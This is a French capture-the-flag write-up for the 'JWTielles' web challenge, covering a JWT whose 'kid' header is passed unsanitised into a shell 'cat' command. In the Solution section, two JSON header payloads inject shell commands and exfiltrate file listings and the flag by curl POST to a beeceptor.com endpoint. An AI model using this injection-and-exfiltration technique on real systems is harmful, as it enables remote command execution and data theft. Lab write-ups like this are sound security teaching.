 ```yaml
---
title: "JWTielles"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```



# OpenCycom 2023 - JWTielles - *300 pts*

## Enoncé
```mmmmmmmmmmm les bonnes tielles...... 🤤```


## Solution
Le challenge commence sur un super site de tielles `miam`.

![](/images/004/01.jpg)

On remarque en haut à droite une fonction API qui nous redirige vers un endpoint `GET /api/tielles`, qui nous renvoie une image aléatoire de tielle.

Si l'on observe les requêtes qui passent avec un proxy (type Burp Suite), on peut remarquer que l'API nous attribue un jeton d'authentification lors de la première visite de la page.

![](/images/004/02.png)


Lorsque l'on décode le JWT, on se rend compte qu'il ne contient que très peu d'informations. Le seul header un peu inhabituel est le header "kid", qui contient un GUID qui semble ne pas changer entre plusieurs tokens.

![](/images/004/03.png)

Si l'on ne connaît pas le fonctionnement du paramètre KID dans un JWT, une petite recherche Google nous permet de retrouver la RFC ou d'autres ressources qui nous expliquent que le KID était un paramètre qui sert à indiquer au serveur quelle clé utilisée pour signer le token en question.

Cependant, selon la RFC, il n'y a pas de méthode d'implémentation préconisée. Il est donc possible que le challenge repose sur une mauvaise implémentation de ce paramètre.

![](/images/004/04.png)

Selon la méthode de stockage du KID (en BDD, sur le FS, à l'extérieur...) les attaques possibles sont assez larges.

Ici, le développeur de JWTielles a (malheureusement) choisi de stocker le token sur le filesystem, et de retrouver le contenu du fichier à l'aide d'une commande système `cat`. Cette commande est exécutée forcément *avant* la vérification de la signature, ce qui nous permet de mettre les données de notre choix dans le KID sans problème de vérification.

Nous pouvons exploiter un manque de sanitisation des entrées utilisateurs qui sont passées directement dans la commande système.

Concrètement, le paramètre "kid" est vulnérable à une injection de commande. Pour l'exploiter, il suffit d'utiliser un caractère pour terminer la commande en cours (";","&&", ou "||" par exemple), et d'insérer la commande de notre choix.

Cette exécution de commande se fait à l'aveugle, car une fois la commande exécutée, le résultat est passé comme clé pour la signature du JWT. Nous devons donc trouver un moyen d'exfiltrer le résultat de nos commandes.

On peut passer directement par HTTP, en utilisant des services comme RequestBin ou Beeceptor, qui nous permettent d'obtenir le contenu des requêtes qui leur sont envoyées.

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(ls -a|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/004/05.png)

On reçoit : 

![](/images/004/06.png)

Donc on affiche le flag :

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(cat ./flag|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/004/07.png)


Et voila !

*FLAG : OPC{N3\*\*\*\*\*\*\*\*\*\*\*\*\*\*1D}*
